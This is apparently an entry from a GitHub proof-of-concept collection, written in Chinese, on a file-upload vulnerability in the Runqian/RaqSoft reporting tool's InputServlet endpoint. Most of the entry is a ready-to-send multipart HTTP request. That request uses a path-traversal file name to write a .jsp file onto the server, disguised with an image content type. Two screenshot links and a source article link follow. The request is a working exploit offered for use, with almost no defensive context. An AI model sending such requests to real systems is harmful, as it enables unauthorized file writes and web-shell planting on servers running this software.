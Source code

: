 ## 润乾报表InputServlet接口存在文件上传漏洞

环境：https://github.com/charlesvhe/raqsoft

## poc
```
POST /InputServlet?action=12 HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: multipart/form-data; boundary=--------------------------170005680039721412137562
Accept-Encoding: gzip, deflate, br
Content-Length: 2401

----------------------------170005680039721412137562
Content-Disposition: form-data; name="upsize"

1024
----------------------------170005680039721412137562
Content-Disposition: form-data; name="file"; filename="/\..\\..\2.jsp"
Content-Type: image/png

11111
----------------------------170005680039721412137562--

```

![image](https://github.com/wy876/POC/assets/139549762/040e8f76-a72c-47db-a161-d14cab5db001)

![image](https://github.com/wy876/POC/assets/139549762/bea567d7-6648-4cbe-990a-8fbb876d7660)


## 漏洞来源
- https://mp.weixin.qq.com/s/-u1fn_q4e-YhJUEqwNG1Zg
